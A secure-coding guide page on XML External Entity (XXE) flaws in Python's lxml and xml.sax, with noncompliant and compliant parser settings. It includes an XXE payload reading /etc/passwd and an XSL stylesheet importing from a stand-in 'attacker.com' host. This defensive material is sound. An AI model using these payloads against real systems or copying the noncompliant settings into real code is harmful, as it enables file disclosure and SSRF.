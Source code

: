 # XML External Entities (XXE)

## Description
XML specification allows the use of entities that can be internal or external (file system / network access ...) which could lead to vulnerabilities such as confidential file disclosures or SSRFs.

Example in this XML document, an external entity read the /etc/passwd file:

```python
<?xml version="1.0" encoding="utf-8"?>
  <!DOCTYPE test [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
  ]>
<note xmlns="http://www.w3schools.com" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
  <to>&xxe;</to>
  <from>Jani</from>
  <heading>Reminder</heading>
  <body>Don't forget me this weekend!</body>
</note>
```

In this XSL document, network access is allowed which can lead to SSRF vulnerabilities:

```python
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.attacker.com/evil.xsl">
  <xsl:import href="http://www.attacker.com/evil.xsl"/>
  <xsl:include href="http://www.attacker.com/evil.xsl"/>
 <xsl:template match="/">
  &content;
 </xsl:template>
</xsl:stylesheet>
```
It is recommended to disable access to external entities and network access in general.


## Vulnerable Code Example
lxml module:

* When parsing XML:

```python
parser = etree.XMLParser() # Noncompliant: by default resolve_entities is set to true
tree1 = etree.parse('ressources/xxe.xml', parser)
root1 = tree1.getroot()

parser = etree.XMLParser(resolve_entities=True) # Noncompliant
tree1 = etree.parse('ressources/xxe.xml', parser)
root1 = tree1.getroot()
```
* When validating XML:

```python
parser = etree.XMLParser(resolve_entities=True) # Noncompliant
treexsd = etree.parse('ressources/xxe.xsd', parser)
rootxsd = treexsd.getroot()
schema = etree.XMLSchema(rootxsd)
```
* When transforming XML:

```python
ac = etree.XSLTAccessControl(read_network=True, write_network=False)  # Noncompliant, read_network is set to true/network access is authorized
transform = etree.XSLT(rootxsl, access_control=ac)
```

## Mitigation
lxml module:

* When parsing XML, disable resolveentities_ and network access:

```python
parser = etree.XMLParser(resolve_entities=False, no_network=True) # Compliant
tree1 = etree.parse('ressources/xxe.xml', parser)
root1 = tree1.getroot()
```
* When validating XML (note that network access cannot be completely disabled when calling XMLSchema):

```python
parser = etree.XMLParser(resolve_entities=False) # Compliant: by default no_network is set to true
treexsd = etree.parse('ressources/xxe.xsd', parser)
rootxsd = treexsd.getroot()
schema = etree.XMLSchema(rootxsd) # Compliant
```
* When transforming XML, disable access to network and file system:
```python
parser = etree.XMLParser(resolve_entities=False) # Compliant
treexsl = etree.parse('ressources/xxe.xsl', parser)
rootxsl = treexsl.getroot()

ac = etree.XSLTAccessControl.DENY_ALL  # Compliant
transform = etree.XSLT(rootxsl, access_control=ac) # Compliant
```
* To prevent xxe attacks with xml.sax module (for other security reasons than XXE, xml.sax is not recommended):

```python
parser = xml.sax.make_parser()
myHandler = MyHandler()
parser.setContentHandler(myHandler)
parser.parse("ressources/xxe.xml") # Compliant: in version 3.7.1: The SAX parser no longer processes general external entities by default

parser.setFeature(feature_external_ges, False) # Compliant
parser.parse("ressources/xxe.xml")
```

## Risk Assessment

## References
* [A4:2017-XML External Entities (XXE)]
* [XML External Entity Prevention Cheat Sheet]
* [CWE-611: Improper Restriction of XML External Entity Reference]
* [CWE-827: Improper Control of Document Type Definition]

[A4:2017-XML External Entities (XXE)]:https://owasp.org/www-project-top-ten/2017/A4_2017-XML_External_Entities_(XXE).html
[XML External Entity Prevention Cheat Sheet]:https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html
[CWE-611: Improper Restriction of XML External Entity Reference]:https://cwe.mitre.org/data/definitions/611.html
[CWE-827: Improper Control of Document Type Definition]:https://cwe.mitre.org/data/definitions/827.html



